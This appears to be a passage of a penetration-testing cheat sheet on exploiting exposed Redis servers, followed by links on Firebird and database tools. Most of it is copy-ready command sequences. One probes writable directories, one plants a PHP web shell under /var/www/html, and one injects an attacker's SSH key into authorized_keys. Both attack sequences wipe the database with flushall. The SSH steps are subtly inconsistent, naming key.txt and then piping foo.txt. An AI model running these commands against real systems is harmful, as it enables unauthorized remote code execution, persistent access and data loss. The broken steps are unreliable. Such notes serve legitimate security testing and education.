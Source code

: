 Sensitive injection points for testing:

```
/var/www/html
/home/redis/.ssh
/var/lib/redis/.ssh
/var/spool/cron/crontabs
/var/spool/cron

$ for dname in `cat dirs.txt`; do redis-cli -h 127.0.0.1 config set dir $dname | grep OK && echo $dname; done
```



### Web Shell

* [https://book.hacktricks.xyz/pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

```
$ redis-cli -h 127.0.0.1 flushall
$ redis-cli -h 127.0.0.1 set pwn '<?php system($_REQUEST['cmd']); ?>'
$ redis-cli -h 127.0.0.1 config set dbfilename shell.php
$ redis-cli -h 127.0.0.1 config set dir /var/www/html
$ redis-cli -h 127.0.0.1 save
```



### SSH Public Key

* [https://github.com/Avinash-acid/Redis-Server-Exploit](https://github.com/Avinash-acid/Redis-Server-Exploit)

```
$ ssh-keygen -t ecdsa -s 521 -f key
$ (echo -e "\n\n"; cat key.pub; echo -e "\n\n") > key.txt
$ redis-cli -h 127.0.0.1 flushall
$ cat foo.txt | redis-cli -h 127.0.0.1 -x set pwn
$ redis-cli -h 127.0.0.1 config set dbfilename authorized_keys
$ redis-cli -h 127.0.0.1 config set dir /var/lib/redis/.ssh
$ redis-cli -h 127.0.0.1 save
```




## Firebird

* [https://www.infosecmatter.com/firebird-database-exploitation/](https://www.infosecmatter.com/firebird-database-exploitation/)




## Tools


### DBeaver

* [DBeaver Community](https://dbeaver.io/)



### DbVisualizer

* [DbVisualizer](https://www.dbvis.com/)
